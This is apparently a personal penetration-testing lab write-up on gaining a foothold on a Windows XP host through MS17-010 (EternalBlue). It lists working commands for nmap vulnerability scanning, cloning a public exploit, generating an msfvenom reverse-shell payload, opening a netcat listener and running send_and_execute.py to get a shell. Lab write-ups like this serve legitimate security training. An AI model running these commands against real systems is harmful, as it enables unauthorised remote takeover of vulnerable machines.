 Getting a Foothold

Getting a Foothold

# Works

1. Run the vuln scripts on NMAP. Either of the following 2 commands listed MS17-010 as one of the high risk vulns.
No ping scan
`sudo nmap -Pn -A -p- -sV --script default,safe,auth,vuln --max-retries 4 10.11.1.5`
Stealth scan
`sudo nmap -sS -A -p- -sV --script default,safe,auth,vuln --max-retries 4 10.11.1.5`
![a178b4e5d725f921e12987bbb740184e.png](../../../_resources/d353d0bbcc894a19afa97f51a33ea2d2.png)

2. The above scripts ran smb-os-discovery script, and revealed that the OS = Windows XP (Lan Manager)

3. Searchsploit does not offer any exploits for MS17-010 using Windows XP. The Google search string: `ms17-010 windows xp` showed the helpful link that led to the next steps.
![4950f409aed33bb11dcb03c680819ecc.png](../../../_resources/d88460f566f043e1a66458bc4bb47560.png)

4. Clone this repo
`git clone https://github.com/helviojunior/MS17-010.git`
![eedbdbc2e4590b74c80830718b632652.png](../../../_resources/a49574f92c8d47db8d30f1266d1491c5.png)

5. Generate shellcode
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.214 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o rev_192.168.119.214_443.exe`
![e2f8f796e1f731bc2df59d82a376ff56.png](../../../_resources/9d60394eafcf452d845604e925588a4d.png)

6. Start a netcat listener
`sudo nc -lvnp 443`
![5763f05c332a51b46861bbb46d9c3a56.png](../../../_resources/b76027288904486aa11ae5dd002edc15.png)

7. Run send_and_execute.py
`python ~/gitWorkspace/tools/MS17-010/send_and_execute.py 10.11.1.5 rev_192.168.119.214_443.exe`
![48b23e9d396c6ad0e31fe1bafcf56be5.png](../../../_resources/ccc9d1e96e3345d4965b1c1a7c98f3d9.png)

8. Notice that we now have a shell
![c56d54ba4c32c4564b16c3efb6376466.png](../../../_resources/ec675e92418445e9902e38797e0c1847.png)










 
